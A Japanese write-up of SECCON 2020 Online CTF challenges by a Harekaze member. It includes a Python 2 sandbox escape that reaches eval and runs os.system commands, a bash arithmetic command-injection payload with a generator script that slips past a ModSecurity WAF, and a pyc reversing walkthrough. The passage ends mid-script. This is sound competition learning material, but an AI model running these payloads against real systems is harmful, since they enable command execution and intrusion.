





10 月 10 日から 10 月 11 日にかけて開催された [SECCON 2020 Online CTF](https://www.seccon.jp/2020/) に、チーム Harekaze として参加しました。最終的にチームで 2123 点を獲得し、順位は 51 点以上得点した 579 チーム中 11 位 (国内 4 位?) でした。うち、私は 8 問を解いて 1552 点を入れました。

他のメンバーが書いた write-up はこちら。

- [SECCON 2020 OnlineCTF writeup -- SCSBX:Reversing - /var/log/hikalium](https://hikalium.hatenablog.jp/entry/2020/10/11/205917)

以下、私の write-up です。

## 競技時間中に解いた問題
### [sandbox 205] Yet Another PySandbox (20 solves)
> There are tons of python-sandbox challs. Today, we give you yet another python sandbox chall.
> 
> nc (省略) 30002
> 
> 添付ファイル: run.py

`run.py` は以下のような内容でした。

```python
#!/usr/bin/env python2.7
from sys import modules
del modules['os']
del modules['sys']
del modules
keys = list(__builtins__.__dict__.keys())

EVAL = eval
LEN = len
RAW_INPUT = raw_input
TRUE = True
FALSE = False
TYPE = type
INT = int

for k in keys:
    if k not in ['False', 'None', 'True', 'bool', 'bytearray', 'bytes', 'chr', 'dict', 'eval', 'exit', 'filter', 'float', 'hash', 'int', 'iter', 'len', 'list', 'long', 'map', 'max', 'ord', 'print', 'range', 'raw_input', 'reduce', 'repr', 'setattr', 'sum', 'type']:
        del __builtins__.__dict__[k]

def print_eval_result(x):
    if TYPE(x) != INT:
        print('wrong program')
        return
    print(x)

def check_eval_str(s):
    s = s.lower()
    if LEN(s) > 0x1000:
        return FALSE
    for x in ['eval', 'exec', '__', 'module', 'class', 'globals', 'os', 'import']:
        if x in s:
            return FALSE
    return TRUE

def sandboxed_eval(s):
    print_eval_result = None
    check_eval_str = None
    sandboxed_eval = None
    evaluator = None
    return EVAL(s)

def evaluator():
    print('Welcome to yet yet another sandboxed python evaluator!')
    print('Give me an expression (ex: 1+2): ')
    s = RAW_INPUT('> ').lower()
    if check_eval_str(s):
        print_eval_result(sandboxed_eval(s))
    else:
        print('Invalid input')
evaluator()
```

`__builtins__` から `False` や `chr` といった一部を残してメンバが削除された上で、`__` や `eval` といった文字列を含まない限りで好きな Python コードを実行できるという問題のようです。

まずは `check_eval_str` 内でのチェックを回避して Python コードを実行する方法を探しましょう。

`eval(raw_input())` 相当のことができれば嬉しいのですが、`eval` と `raw_input` は `__builtins__` から削除されてはいないものの、Python コードに `eval` が含まれていると `check_eval_str` によって弾かれてしまうのでそのままでは実行できません。

`getattr(__builtins__, 'eval')` のような感じで `__builtins__` のメンバにアクセスできればよさそうですが、`getattr` は `__builtins__` から削除されてしまっており、`check_eval_str` も `__`　が使われていないかチェックしているために、こちらもそのままでは実行できません。

`__` を使わずに `__builtins__` にアクセスできる方法がないか探していると、[Python 2.7 のドキュメント](https://docs.python.org/ja/2.7/library/inspect.html)が見つかりました。フレームオブジェクトは `f_builtins` というメンバを持っているようで、これは使えそうです。

フレームオブジェクトはどうやってアクセスできるか確認すると、こちらも同じドキュメントにジェネレータの `gi_frame` というメンバからアクセスできるという記述が見つかりました。試してみましょう。

```
$ python2
>>> (x for x in []).gi_frame.f_builtins['ev'+'al']
<built-in function eval>
```

`eval` にアクセスすることができました。これを使って `eval(raw_input())` 相当のことができないか試してみましょう。

```
$ python2 run.bde1c4a3e543e63ff3c7f3d5e93bf075.py
Welcome to yet yet another sandboxed python evaluator!
Give me an expression (ex: 1+2):
> (x for x in []).gi_frame.f_builtins['ev'+'al'](raw_input())
7*7
49
```

できました。あとは [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) を参考にタプルから `os.system` を取り出して OS コマンドを実行しましょう。

```
$ nc (省略) 30002
Welcome to yet yet another sandboxed python evaluator!
Give me an expression (ex: 1+2): 
> (x for x in []).gi_frame.f_builtins['ev'+'al'](raw_input())
[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__repr__.im_func.func_globals['linecache'].os.system('ls')
flag-062d36e36ef96ea66b9a8daf7ec1e628
run.py
start.sh
0

$ nc (省略) 30002
Welcome to yet yet another sandboxed python evaluator!
Give me an expression (ex: 1+2): 
> (x for x in []).gi_frame.f_builtins['ev'+'al'](raw_input())
[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__repr__.im_func.func_globals['linecache'].os.system('cat flag*')
SECCON{creating_sandbox_is_really_really_impossible}
0
```

フラグが得られました。

```
SECCON{creating_sandbox_is_really_really_impossible}
```

### [misc 305] WAFthrough (8 solves)
> Execute the /usr/bin/flag
> 
> http://(省略)/cgi-bin/
> 
> 添付ファイル: WAFthrough.tar.gz

`WAFthrough.tar.gz` には `index.cgi` と `rules.conf` が含まれていました。`rules.conf` は以下のような内容でした。

```
#------------#
# SECCON2020 #
#------------#

# Disable deny
#SecRuleEngine DetectionOnly
SecRuleEngine On

# Log type
SecAuditLogParts ABJDEFHZ

# RequestSize
SecRequestBodyLimit 64
SecRequestBodyNoFilesLimit 64
SecRequestBodyLimitAction Reject

# Regex
SecPcreMatchLimit 1024
SecPcreMatchLimitRecursion 1024

# Response
SecResponseBodyAccess On

# Rules
SecDefaultAction "phase:1,log,deny,status:403"
SecRule QUERY_STRING  "[Uu]"   "id:'9000001'"
SecRule QUERY_STRING  "[Ss]"   "id:'9000002'"
SecRule QUERY_STRING  "[Rr]"   "id:'9000003'"
SecRule QUERY_STRING  "[Bb]"   "id:'9000004'"
SecRule QUERY_STRING  "[Ii]"   "id:'9000005'"
SecRule QUERY_STRING  "[Nn]"   "id:'9000006'"
SecRule QUERY_STRING  "[Ff]"   "id:'9000007'"
SecRule QUERY_STRING  "[Ll]"   "id:'9000008'"
SecRule QUERY_STRING  "[Aa]"   "id:'9000009'"
SecRule QUERY_STRING  "[Gg]"   "id:'9000010'"
SecRule QUERY_STRING  "[0-9]"  "id:'9000011'"
SecRule QUERY_STRING  "([a-zA-Z]).*\1"  "id:'9000012'"
SecRule ARGS_COMBINED_SIZE "@gt 320" "id:'9000013'"

SecDefaultAction "phase:4,log,deny,status:403"
SecRule RESPONSE_BODY "SECCON" "id:'9000091'"
```

`SecRule` や `SecDefaultAction` でググると Apache の ModSecurity という WAF の定義ファイルであることがわかります。これを読むと、以下のような制約があることがわかります。

- `usrbinflagUSRBINFLAG0123456789` の各文字は使えない
- `a-zA-Z` の各文字はそれぞれ一度しか使えない
- 320 文字より長いパラメータを含んではいけない
- レスポンスに `SECCON` が含まれてはいけない

`index.cgi` は以下のような内容でした。

```bash
#!/bin/bash
 
exec 2>&1 # for debug

SECCON_BANNER="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"

echo "Content-Type: text/html"
echo ""

cat << SECCON
<!doctype html>
<html><head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css" integrity="sha384-MCw98/SFnGE8fJT3GXwEOngsV7Zt27NXFoaoApmYm81iuXoPkFOJwJ8ERdknLPMO" crossorigin="anonymous">
<title>S E C C O N champions</title>
</head>
<body>

<div class="container-fluid">
  <div class="row">
    <div class="ml-2">
      <h1> champions</h1>
    </div>
  </div>
</div>

<form name="t" class="form-inline" action="$SCRIPT_NAME" method="get" enctype="application/x-www-form-urlencoded">
  <div class="container-fluid">
    <div class="row">
      <div class="ml-3">
	<input class="form-control" name="q" type="radio" value="v" onclick="document.t.submit()" >2015
        <input class="form-control" name="q" type="radio" value="w" onclick="document.t.submit()" >2016
        <input class="form-control" name="q" type="radio" value="x" onclick="document.t.submit()" >2017
        <input class="form-control" name="q" type="radio" value="y" onclick="document.t.submit()" >2018
        <input class="form-control" name="q" type="radio" value="z" onclick="document.t.submit()" >2019
      </div>
    </div>
  </div>
</form>

<div class="container-fluid">
  <div class="row">
    <div class="ml-3">
      <h2>
SECCON

if [ "$REQUEST_METHOD" = "GET" ]
then
  VAR="$(echo $QUERY_STRING|cut -c3-|nkf -w --url-input)"
  TARGET_FILE=$(sed -e 's/z/2019/g' -e 's/y/2018/g' -e 's/x/2017/g' -e 's/w/2016/g' -e 's/v/2015/g' <(echo $VAR))
  if [[ "$TARGET_FILE" -gt 2014 ]]
  then
    echo '<HR>'
    cat $TARGET_FILE
  fi
fi

cat << SECCON
      </h2>
    </div>
  </div>
</div>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</body>
</html>
SECCON
```

bash スクリプトで CGI というと、昨年出題された [SECCON_multiplicater](2019-10-20-seccon-online-ctf.html#seccon_multiplicater-web-457) を思い出します。前回解くときに参照した [bash の危険な算術式 - どさにっき](http://ya.maya.st/d/201909a.html#p20190901_1_9)という記事をもう一度確認してみると、以下のような記述が見つかりました。

> [[ ... ]] という条件式構文で -eq や -le などの比較演算子が使われる場合、比較される値は暗黙に文字列ではなく算術式として評価される。よって、上のスクリプトの第1引数に算術式を食わせるとそれが評価されてコード実行につながる。
> 
> http://ya.maya.st/d/201909a.html#p20190901_1_9

`index.cgi` を確認すると、`[[ "$TARGET_FILE" -gt 2014 ]]` でユーザ入力由来である `TARGET_FILE` という変数が使われており、ここで OS コマンドインジェクションができそうな雰囲気があります。

試しに以下のような bash スクリプトを実行すると 5 秒のウェイトが入り、OS コマンドインジェクションができることがわかりました。

```bash
#!/bin/bash
QUERY_STRING='q=_[$(sleep 5)]'
VAR="$(echo $QUERY_STRING|cut -c3-|nkf -w --url-input)"
TARGET_FILE=$(sed -e 's/z/2019/g' -e 's/y/2018/g' -e 's/x/2017/g' -e 's/w/2016/g' -e 's/v/2015/g' <(echo $VAR))
echo $TARGET_FILE
if [[ "$TARGET_FILE" -gt 2014 ]]
then
  echo '<HR>'
  cat $TARGET_FILE
fi
```

フラグを得るには `rules.conf` の制約の範囲内で `/usr/bin/flag` を実行し、その結果を出力させるようなペイロードを作る必要があります。

bash では、以下のようなことができます。

- `$$` にはプロセス ID が入っている
- `$0` には実行されているファイルの名前が入っている (今回は `/usr/lib/cgi-bin/index.cgi`)
- `$((式))` で算術式展開ができる (例えば、`echo $((7*7))` は `49` を出力する)
- `${変数名:開始位置:文字数}` で文字列の切り出しができる
- `$(<ファイル名)` は `$(cat ファイル名)` と等価
- `${!変数名}` で変数の間接展開ができる (例えば、`$HOGE` に `0` が入っているときに `${!HOGE}` は `$0` と等価)

これを応用すると、まず `__=$(($$-$$))` で `0` が、`___=$(($$/$$))` で `1` が作れることがわかります。これを使えば、`0-9` といった数字を使わずとも任意の数値を作ることができます。

`$0` には実行されているスクリプトのパスが入っていますから、変数の間接展開と組み合わせて `____=$(<${!__})` で `____` に `index.cgi` の内容を代入させることができます。

`index.cgi` の内容には `f` `l` `a` `g` など WAF によって利用が禁止されている文字が含まれていますから、`${____:開始位置:1}` のようにして切り出せば、WAF を回避してそういった文字を利用することができます。

これらを利用して `/usr/bin/flag` や `../../bin/flag` のような文字列を作って実行させればフラグが得られそうですが、その出力には `SECCON` が含まれているでしょうから、そのままでは WAF に弾かれてしまうはずです。最初の 1 文字を消せば `ECCON{...}` になるはずですから、これで回避できるでしょう。

このようなペイロードを構築する作業を自動化してくれるスクリプトを書き、`flag` の 1 文字目と 3 文字目である `f` と `a` を作ります。

```python
with open('index.cgi', 'rb') as f:
  s = f.read()

table = {
  0: ['$$-$$', '__'],
  1: ['$$/$$', '___'],
  2: ['$___+$___', '____'],
  4: ['$____*$____', '_____'],
  8: ['$_____*$____', '______'],
  16: ['$______*$____', '_______'],
  32: ['$_______*$____', '________'],
}

pre = ''
for k in [0, 1, 2, 4, 8, 16, 32]:
  v = table[k]
  pre += f'{v[1]}=$(({v[0]}));'
pre = pre[:-1]

def num_to_var(x):
  res = ''
  for i in range(7):
    if x & (1 << i):
      res += '+$' + table[1 << i][1]
  return res[1:]

def char_to_var(c):
  template = '${_________:((I)):(($___))}'
  i = s.index(c)
  res = template.replace('I', num_to_var(i))
  return res

def encode(s):
  template = '_[$(PRE;_________=$(<${!__});ENCODED)]'
  encoded = ''
  for c in s:
    encoded += char_to_var(bytes([c]))
  return template.replace('PRE', pre).replace('ENCODED', encoded)

payload = encode(b'fa')
print(len(payload), payload)
```

```
$ python2 gen.py
261 _[$(__=$(($$-$$));___=$(($$/$$));____=$(($___+$___));_____=$(($____*$____));______=$(($_____*$____));_______=$(($______*$____));________=$(($_______*$____));_________=$(<${!__});${_________:(($____+$______+$_______)):(($___))}${_________:(($______)):(($___))})]
```

`${_________:(($____+$______+$_______)):(($___))}` と `${_________:(($______)):(($___))}` がそれぞれ `f` と `a` を意味しています。

`../../???/${_________:(($____+$______+$_______)):(($___))}?${_________:(($______)):(($___))}?` は `../../???/f?a?` と等価で、このようなパスを持つファイルは `/usr/bin/flag` の他にないでしょうから、これを実行した結果の 2 文字目以降を出力するようなペイロードに変え、実行します。

```
$ curl -g 'http://(省略)/cgi-bin/index.cgi?q=_[$(__=$(($$-$$));___=$(($$/$$));____=$(($___+$___));_____=$(($____*$____));______=$(($_____*$____));_______=$(($______*$____));________=$(($_______*$____));_________=$(<${!__});__________=$(../../???/${_________:(($____+$______+$_______)):(($___))}?${_________:(($______)):(($___))}?);${__________:$___})]'
...
<div class="container-fluid">
  <div class="row">
    <div class="ml-3">
      <h2>
/usr/lib/cgi-bin/index.cgi: line 52: ECCON{WAF0000000000!}: command not found
      </h2>
    </div>
  </div>
</div>
...
```

フラグが得られました。

```
SECCON{WAF0000000000!}
```

---

この問題は Harekaze が first blood でした。わーい。

### [reversing 215] Fixer (18 solves)
> usage
> 
> ```
> $ python3.9 fixer.cpython-39.pyc
> SECCON{DUMMY_FLAG}
> wrong
> $
> ```
> 
> Note: SECCON{DUMMY_FLAG} is not the actual flag.
> 
> 添付ファイル: fixer.cpython-39.pyc

Python 3.9 で生成された pyc ファイルが与えられました。デコンパイルできないか [zrax/pycdc](https://github.com/zrax/pycdc) や [rocky/python-uncompyle6](https://github.com/rocky/python-uncompyle6) に投げてみましたが、どうやら未対応のようで正しくデコンパイルされません。仕方がないのでバイトコードを確認してみましょう。

まず逆アセンブルする Python スクリプトを書きます。

```python
import dis
import marshal
with open('fixer.25f1fe08e6e0434bd5ae604e963f4b80.cpython-39.pyc', 'rb') as f:
  f.seek(16)
  dis.dis(marshal.load(f))
```

実行します。

```
root@30c38955e54c:/app# python disas.py
  1           0 LOAD_CONST               0 (0)
              2 LOAD_CONST               1 (None)
              4 IMPORT_NAME              0 (re)
              6 STORE_NAME               0 (re)

  3           8 LOAD_NAME                1 (input)
             10 CALL_FUNCTION            0
             12 STORE_NAME               2 (s)

  4          14 LOAD_NAME                0 (re)
             16 LOAD_METHOD              3 (match)
             18 LOAD_CONST               2 ('^SECCON{([A-Z]+)}$')
             20 LOAD_NAME                2 (s)
             22 CALL_METHOD              2
             24 STORE_NAME               4 (m)

  5          26 LOAD_NAME                4 (m)
             28 POP_JUMP_IF_TRUE        40

  6          30 LOAD_NAME                5 (print)
             32 LOAD_CONST               3 ('invalid flag')
             34 CALL_FUNCTION            1
             36 POP_TOP
             38 JUMP_FORWARD            44 (to 84)

  8     >>   40 LOAD_NAME                4 (m)
             42 LOAD_METHOD              6 (group)
             44 LOAD_CONST               4 (1)
             46 CALL_METHOD              1
             48 STORE_NAME               2 (s)

  9          50 LOAD_CONST               5 (<code object <lambda> at 0x7f2ed2a099d0, file "fixer.py", line 9>)
             52 LOAD_CONST               6 ('<lambda>')
             54 MAKE_FUNCTION            0
             56 STORE_NAME               7 (f)

 10          58 LOAD_NAME                7 (f)
             60 LOAD_NAME                2 (s)
             62 CALL_FUNCTION            1
             64 POP_JUMP_IF_FALSE       76

 11          66 LOAD_NAME                5 (print)
             68 LOAD_CONST               7 ('correct')
             70 CALL_FUNCTION            1
             72 POP_TOP
             74 JUMP_FORWARD             8 (to 84)

 13     >>   76 LOAD_NAME                5 (print)
             78 LOAD_CONST               8 ('wrong')
             80 CALL_FUNCTION            1
             82 POP_TOP
        >>   84 LOAD_CONST               1 (None)
             86 RETURN_VALUE
...
Disassembly of <code object <lambda> at 0x7f2ed2a099d0, file "fixer.py", line 9>:
  9           0 LOAD_CONST               1 (<code object <lambda> at 0x7f2ed29f67c0, file "fixer.py", line 9>)
              2 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
              4 MAKE_FUNCTION            0
              6 LOAD_CONST               3 (13611142019359843741091679554812914051545792465993098606064046040462991)
              8 CALL_FUNCTION            1
             10 LOAD_CONST               4 (<code object <lambda> at 0x7f2ed29f69d0, file "fixer.py", line 9>)
             12 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             14 MAKE_FUNCTION            0
             16 LOAD_CONST               5 (<code object <lambda> at 0x7f2ed29f6c90, file "fixer.py", line 9>)
             18 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             20 MAKE_FUNCTION            0
             22 CALL_FUNCTION            1
             24 LOAD_CONST               6 (<code object <lambda> at 0x7f2ed29fc0e0, file "fixer.py", line 9>)
             26 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             28 MAKE_FUNCTION            0
             30 CALL_FUNCTION            1
             32 LOAD_CONST               4 (<code object <lambda> at 0x7f2ed29f69d0, file "fixer.py", line 9>)
             34 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             36 MAKE_FUNCTION            0
             38 LOAD_CONST               7 (<code object <lambda> at 0x7f2ed2a06450, file "fixer.py", line 9>)
             40 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             42 MAKE_FUNCTION            0
             44 CALL_FUNCTION            1
             46 LOAD_CONST               4 (<code object <lambda> at 0x7f2ed29f69d0, file "fixer.py", line 9>)
             48 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             50 MAKE_FUNCTION            0
             52 LOAD_CONST               8 (<code object <lambda> at 0x7f2ed2a049d0, file "fixer.py", line 9>)
             54 LOAD_CONST               2 ('<lambda>.<locals>.<lambda>')
             56 MAKE_FUNCTION            0
             58 CALL_FUNCTION            1
             60 CALL_FUNCTION            1
             62 LOAD_FAST                0 (s)
             64 CALL_FUNCTION            1
             66 CALL_FUNCTION            1
             68 LOAD_CONST               9 (0)
             70 CALL_FUNCTION            1
             72 CALL_FUNCTION            1
             74 RETURN_VALUE
...
```

一部を手でデコンパイルすると以下のようになります。

```python
import re

s = input('')
m = re.match('^SECCON{([A-Z]+)}$')
if m:
  print('invalid flag')
else:
  m = m.group(1)
  f = lambda s: ...
  if f(s):
    print('correct')
  else:
    print('wrong')
```

`f` のバイトコードは `Disassembly of <code object <lambda> at 0x7f2ed2a099d0, file "fixer.py", line 9>` に書かれていますが、無名関数の中で無名関数が定義されており、とても手でデコンパイルして処理を追う気にはなれません。

無名関数がどのような値を返しているか、`sys.settrace` を使って確認してみましょう。

```python
import sys

def trace(frame, event, arg):
  func_name = frame.f_code.co_name
  if event == 'call':
    return trace
  elif event == 'return':
    if func_name == '<lambda>':
      print(arg)

sys.settrace(trace)
import fixer
```

```
root@30c38955e54c:/app# echo SECCON{TEST} | python trace.py | tail
257
257
257
257
257
2297964864
2297964864
False
False
wrong
root@30c38955e54c:/app# echo SECCON{TESTHOGEHOGE} | python trace.py | tail
257
257
257
257
257
68056586070519336710102097458
68056586070519336710102097458
False
False
wrong
```

最後に `False` を返しているのは `f` でしょう。`2297964864` と `68056586070519336710102097458` はそれぞれ `TEST` と `TESTHOGEHOGE` がなんらかの方法で数値に変換されたもののようです。これが `13611142019359843741091679554812914051545792465993098606064046040462991` になればよいということでしょうか。

`trace.py` を返り値が数値の場合にのみ 16 進数で表示するように変更して、少し見やすくします。

```python
import sys

def trace(frame, event, arg):
  func_name = frame.f_code.co_name
  if event == 'call':
    return trace
  elif event == 'return':
    if func_name == '<lambda>' and type(arg) is int:
      print(hex(arg))

sys.settrace(trace)
import fixer
```

いろいろ試してみましょう。

```
root@30c38955e54c:/app# echo SECCON{TESTHOGEFUGA} | python trace.py | tail -n 3 | head -n 1
0x1be2a1cb56ff0766844b873
root@30c38955e54c:/app# echo SECCON{PIYOHOGEFUGA} | python trace.py | tail -n 3 | head -n 1
0x1be2a1cb56ff07675e29f8a
root@30c38955e54c:/app# echo SECCON{TESTHOGEPIYO} | python trace.py | tail -n 3 | head -n 1
0x9b5b5a5e7ba0d0c34f233a10
```

フラグの前の方に変更を加えた場合にはあまり数値に変化がありませんが、後ろの方に変更を加えた場合には大きく変わっています。これを使えば、`13611142019359843741091679554812914051545792465993098606064046040462991` との差分を見ることで後ろから 1 文字ずつフラグを特定できそうです。やってみましょう。

```python
import importlib
import string
import sys

res = None
def trace(frame, event, arg):
  global res
